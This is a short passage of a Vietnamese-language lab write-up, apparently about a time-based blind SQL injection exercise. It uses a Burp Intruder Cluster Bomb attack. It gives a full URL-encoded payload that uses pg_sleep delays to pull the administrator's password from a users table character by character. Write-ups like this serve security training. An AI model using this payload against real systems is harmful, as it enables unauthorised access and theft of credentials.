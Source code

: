 ![](Images/image64.png)

Ta sẽ dùng Cluster Bomb attack để tìm ra pass với payload:

'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--

Filter những pyload có trên 10s phản hồi ta có:

![](Images/image65.png)
